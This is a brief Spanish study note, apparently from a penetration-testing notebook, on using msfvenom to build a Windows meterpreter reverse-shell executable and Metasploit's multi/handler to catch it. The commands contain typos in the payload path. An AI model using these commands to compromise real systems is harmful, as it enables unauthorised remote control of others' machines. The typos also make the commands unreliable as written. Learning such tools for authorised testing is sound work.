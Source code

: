 Herramienta para generar nuestros propios Payloads para realizar intrusiones a los servicios de forma distinta

MSFVENOM forma parte de metasploit y viene integrada en KALI



Genera archivos maliciosos


## forma de ejecutar

```sh title:"msfvenom, execute"
 msfvenom -p windows /x64/meterpleeter/reverse_tcp LHOST={IP} LPORT={puerto del reverse} -f exe -o pwned.exe

# esto genera un fichero pwned.exe que contiene uan reverse shell para windows
```



## multihandler

Esto es una alternativa a NetCat (NC) para recibir una cconexion remota
Es una herramienta para la explotacion del payload creado con MSFVENOM

 en metasploit podemos usar multihandler

```sh title:"metasploit user multi handler"
 msfv > use /multi/handler
# 
```

Debemos configurar de la misma forma que hemos configurado el Payload creado con MSFVENOM
```sh title:"metasploit user multi handler set payload"
 msfv > set PAYLOAD windows/x64/meterpreter/reverse_tcp
# 
```